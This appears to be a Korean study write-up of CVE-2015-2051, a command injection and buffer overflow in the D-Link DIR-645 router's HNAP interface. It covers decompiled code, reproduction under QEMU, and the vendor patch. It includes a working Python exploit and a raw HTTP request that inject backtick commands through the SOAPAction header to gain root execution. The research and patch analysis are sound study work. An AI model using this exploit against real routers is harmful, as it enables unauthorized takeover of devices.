commend injection, bof를 학습하기 위해서 해당 cve를 조사하였습니다. 다소 예전 버전의 펌웨어를 사용하기에 보호기법이 걸린게 없고 함수가 보다 간단하여서, 실제 기기에 어떻게 작동되는지 학습하기 좋을 것 같아 선정하였습니다.

cve-2015-2051은 D-Link DIR-645 공유기의 HNAP 인터페이스에 대한`GetDeviceSettings` 작업을 통해 임의의 명령어 삽입(Command Injection, CWE-77)이 가능한 취약점으로, HTTP POST 요청으로 HNAP에 접근하고 비정상적으로 긴 데이터를 전달하여 BOF(Buffer Overflow) 등을 통해 원격 실행(RCE)가 가능하다.

취약점은 펌웨어 1.04b12 이하의 버전에서 발생하고 CVSS는 8.8(High)로 높다.

# 취약점 발생 경로 및 원인

```
Attacker
   |
   | HTTP POST
   v
/HNAP1/
   |
   | SOAPAction
   | GetDeviceSettings
   v
HNAP Request Handler
   |
   | 입력값 검증 및 처리
   v
Command Execution
   |
   v
  OS
```
HNAP(Home Network Administration Protocol)은 HTTP 위에서 도는 SOAP로, 엔드포인트가 `/HNAP1/`로 고정되어 있다. 이후 `/HNAP1/`로 들어온 요청을 CGI 핸들러인 `htdocs/cgibin`에 넘긴다. 이때 HTTP 헤더는 CGI 규약에 따라 환경변수로 변환되며, `SOAPAction` 헤더는 `HTTP_SOAPACTION`이 된다. 여기서 SOAPAction은 사용자가 보내는 임의 문자열이면서 동시에 제어 흐름을 결정한다. 




해당 부분은 인증 블록이다. `strstr`이 매칭되면(얘는 문자열의 포함 여부만 확인하고 위치는 고려하지 않음 >> URL을 포함하기만 해도 뒤에 아무거도 와도 통과 >> commend injection root) 조건 블록이 거짓이 되어서, 여길  `hnapasswd`대조도 하지 않고 건너뛴다.




여기는 검증 부분인데 34는 아스키코드로 "(큰 따옴표) 이다. 즉, " 만 끝에서 떼고 메타문자 검사가 없어서 여기도 commend injetion root이다.





`v30`은 260byte인데 위 `sprintf` 세 개와 `strcpy` 하나 전부 길이 제한이 없어서 BOF가 가능하다. 그리고 검증 없는 `v22`(SOAPAction의 마지막 `/` 뒤 문자열)가 `sprintf`로 셸 명령 문자열에 그대로 끼워진 뒤 `system()`에 넘겨지므로, 그 안의 백틱이 쉘의 단어 확장 단계에서 먼저 평가되어 공격자 명령이 root 권한으로 실행된다.


[[Commend Injection]]
커맨드 인젝션은 프로그램이 외부 입력을 운영체제 명령 문자열에 넣어 셸로 실행할 때, 그 입력에 셸 메타문자를 섞어 원래 의도하지 않은 명령을 추가로 실행시키는 취약점이다.

성립 조건은 다음 세 가지가 모두 충족될 때만 가능하다.
1. 프로그램이 OS 명령을 실행한다. 
2. 그 명령 문자열에 사용자 입력이 들어간다. 
3. 그리고 그 실행이 셸을 거친다.  
 
이때 세 번째가 핵심인데, 셸을 거치지 않고 `execve`로 인자 배열을 직접 넘기면 `;`나 `|`는 그냥 문자열의 일부로 취급돼서 주입이 되지 않는다.

| 문자              | 동작                  |
| --------------- | ------------------- |
| `;`             | 앞 명령 끝나고 다음 명령 실행   |
| `&&` / `\|`     | 성공/실패 조건부 실행        |
| `\|`            | 앞 출력을 뒤 입력으로 전달     |
| `` ` `` / `$()` | 명령 치환, 큰따옴표 안에서도 동작 |
| `&`             | 백그라운드 실행            |
| 개행              | 줄 단위 명령 구분          |


[[BOF]]
버퍼 오버플로우(Buffer of flow)는 프로그램이 고정된 크기의 메모리 공간(버퍼)에 데이터를 쓸 때 길이를 검사하지 않아, 외부 입력이 버퍼 경계를 넘어 인접한 메모리를 덮어쓰는 취약점이다. 스택에 있는 버퍼가 넘치면 함수의 복귀 주소가 덮이고, 함수가 끝날 때 CPU가 공격자가 쓴 주소로 이동하게 된다.

성립 조건은 다음 세 가지가 모두 충족될 때만 가능하다.

1. 고정 크기 버퍼에 데이터를 쓴다.
2. 쓰는 데이터의 길이를 사용자 입력이 결정한다.
3. 그리고 쓰기 전에 길이를 검사하지 않는다.

이때 세 번째가 핵심인데, `snprintf(buf, sizeof(buf), ...)`처럼 버퍼 크기를 함께 넘기면 입력이 아무리 길어도 버퍼 크기에서 잘리므로 경계를 넘지 않는다.



`C. - "AAAAAAAAAAAAAAAAAAAA\x08\x35\xC0\x80" `is the first command line argument.



#### 위험 함수

| 함수        | 문제                    | 안전한 대안                | CVE-2015-2052에서 |
| --------- | --------------------- | --------------------- | --------------- |
| `strcpy`  | 원본 길이만큼 무조건 복사        | `strncpy`, `snprintf` | **사용됨** (1회)    |
| `sprintf` | 결과 길이를 제한하지 않음        | `snprintf`            | **사용됨** (2회)    |
| `strcat`  | 기존 문자열 뒤에 제한 없이 이어 붙임 | `strncat`             | 미사용             |
| `gets`    | 입력 길이를 전혀 제한하지 않음     | `fgets`               | 미사용             |
| `memcpy`  | 길이 인자를 외부 입력이 결정하면 위험 | 길이 검증 후 사용            | 미사용             |
|           |                       |                       |                 |

# 재현 
https://supportannouncement.us.dlink.com/security/publication.aspx?name=SAP10051 (해당 사이트에서 PoC 방법을 학습)
[[QEMU]]

원래는 `qemu-system-mipsel`로 전체 시스템을 구성해서 실행할려고 했는데, QEMU로 구현하려면 웹 서버도 구현해야 하고 xmldb 데몬과 NVRAM 값이 필요해서 어려웠다. 그래서 다른 방안을 찾아보다가 FirmAE라는 풀 시스템이 가능한 도구가 있다.
근데 차피 http랑 hnap 구동만 확인하면 되는지라 QEMU user mode로 구성하였다.
```
[익스 코드] → [호스트 웹서버] → [qemu-mipsel (user-mode)로 cgibin 실행]
               ↑ QEMU 밖           ↑ 여기가 user-mode
```
(호스트 웹서버는 AI를 통해 구현하였습니다. )

```
서버 활성화
cd ~/gg/embedded_study
sudo python3 hnap_relay.py --root ./rt_b11 --port 8080

재현 코드 실행
cd ~/gg/embedded_study
sudo rm -f rt_b11/POC_MARKER
sudo python3 poc_check.py --url http://127.0.0.1:8080 --root ./rt_b11
```

```python
#!/usr/bin/env python3
import argparse
import urllib.request
import urllib.error

AUTH_BYPASS = "http://purenetworks.com/HNAP1/GetDeviceSettings"


def build_payload(command):
    safe_command = command.replace(" ", "${IFS}")
    injected = "`" + safe_command + "`"
    return AUTH_BYPASS + "/" + injected


def send_request(target_url, soapaction):
    request = urllib.request.Request(
        target_url.rstrip("/") + "/HNAP1/",
        headers={"SOAPAction": '"' + soapaction + '"'},
    )
    try:
        with urllib.request.urlopen(request, timeout=30) as response:
            return response.status
    except urllib.error.HTTPError as error:
        return error.code
    except urllib.error.URLError as error:
        print(f"[!] connection failed: {error.reason}")
        return None


def exploit(target_url, command):
    soapaction = build_payload(command)
    print(f"[*] target  : {target_url}")
    print(f"[*] command : {command}")
    print(f"[*] payload : {soapaction}")

    status = send_request(target_url, soapaction)
    if status is None:
        print("[!] failed")
        return
    print(f"[*] http status : {status}")


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("target")
    parser.add_argument("-c", "--command", default="id")
    args = parser.parse_args()
    exploit(args.target, args.command)


if __name__ == "__main__":
    main()
system(v30);
```
해당 코드를 최소화 해서 사용하면 밑과 같이 나타난다.

```
POST /HNAP1/ HTTP/1.1
Host: <target>
SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings/`<명령>`"
```

1단계는 템플릿 엔진이 SOAP 응답을 생성하고, 설정 변경이 필요한 액션이면 `ShellPath`가 가리키는 위치에 셸 스크립트를 기록한다. 2단계는 그 스크립트를 실행하여 설정을 실제로 적용한다.

취약점은 2단계에서 성립한다. `system()`은 전달받은 문자열을 `/bin/sh -c`로 넘기고, 셸은 명령을 실행하기 전에 단어 확장(word expansion) 을 먼저 수행한다. 명령 치환(백틱, `$()`)은 이 확장 단계에서 평가되므로, 액션 이름 자리에 삽입된 명령이 먼저 실행된다.




# 패치 방법



`strstr` >> `strcmp` 로 바꿔 완전히 일치하지 않으면 막히는 방법으로 수정하였다.








`sprintf` 3개와 `strcpy` 1개가 전부 `snprintf(v29, 0x100, --)`로 바꿔서 BOF를 막았다 + 이전 버전에는 `v30`을 가지고 재사용을 했었지만, 이제는 경로 검사용과 명령 조립용으로 분리하였다.

그리고 access라는 함수가 추가되었다.



```c
int __fastcall cgibin_parse_request(int a1, int a2, unsigned int a3)
{
  char *v6; // $v0
  unsigned int v7; // $s4
  int v8; // $v1
  int v9; // $s0
  char *v10; // $a0
  char *v11; // $v0
  char *v12; // $s1
  size_t v13; // $v0
  char *v14; // $s2
  char **v15; // $s0
  int v16; // $s1
  size_t v17; // $s3
  const char *v18; // $a1
  int v20; // [sp+18h] [-18h] BYREF
  int v21; // [sp+1Ch] [-14h]
  int v22; // [sp+20h] [-10h]
  int v23; // [sp+24h] [-Ch]
  int v24; // [sp+28h] [-8h]

  if ( getenv("CONTENT_TYPE") && (v6 = getenv("CONTENT_LENGTH")) != 0 )
    v7 = atoi(v6);
  else
    v7 = 0;
  v21 = sobj_new();
  v8 = sobj_new();
  v22 = v8;
  v9 = -1;
  if ( v21 && v8 )
  {
    v10 = getenv("REQUEST_URI");
    if ( v10 )
    {
      v11 = strchr(v10, 63);
      v9 = 0;
      if ( v11 )
      {
        v12 = v11 + 1;
        v20 = 0;
        v23 = a1;
        v24 = a2;
        v13 = strlen(v11 + 1);
        sub_403000(&v20, v12, v13);
        sub_403000(&v20, 0, 0);
        v9 = 0;
      }
    }
    else
    {
      v9 = -1;
    }
  }
  if ( v21 )
    sobj_del();
  if ( v22 )
    sobj_del();
  if ( v9 != -1 )
  {
    if ( a3 >= v7 )
    {
      if ( v7 )
      {
        getenv("CONTENT_TYPE");
        v14 = getenv("CONTENT_TYPE");
        if ( v14 )
        {
          v15 = &off_433014;
          v16 = 0; //모드가 0이면 파일이 있는ㄴ지만 확인
          while ( 1 )
          {
            v18 = *v15;
            if ( !*v15 )
              break;
            v17 = (size_t)v15[1];
            v15 += 3;
            ++v16;
            if ( !strncasecmp(v14, v18, v17) )
              return ((int (__fastcall *)(int, int, unsigned int, char *))(&off_433014)[3 * v16 - 1])(
                       a1,
                       a2,
                       v7,
                       &v14[v17]);
          }
        }
        return -1; //없으면 -1 return
      }
    }
    else
    {
      sub_4031A8(v7);
      return -100;
    }
  }
  return v9;
}
```
`access()`는 파일이 존재하는지(또는 접근 권한이 있는지) 확인하는 함수이다.
 `.php`경로를 만들고, 그 파일이 실제로 있는지 확인하고 없으면 바로 멈춘다.
 ```c
 def build_payload(marker_name):

    injected = "`touch${IFS}" + marker_name + "`"

    return ACTION + "/" + injected
 ```
그래서 위와 같은 코드를 실행하면 기존에 `getdevicesetting.php`을 가르키는 경로가 바뀌므로 시스템 도달 이전에 멈춘다.

# 마무리
실기기 없이 qemu의 user mode만을 이용하여 구현을 했었는데 실기기 없이 공유기 환경을 구성하는게 생각보다 힘들었다. 그리고 보호 기법이 걸려있다면 어떻게 우회해야 할지 궁금하다. 
기회가 된다면 실기기를 구매하여 직접 쉘을 따고 싶다.
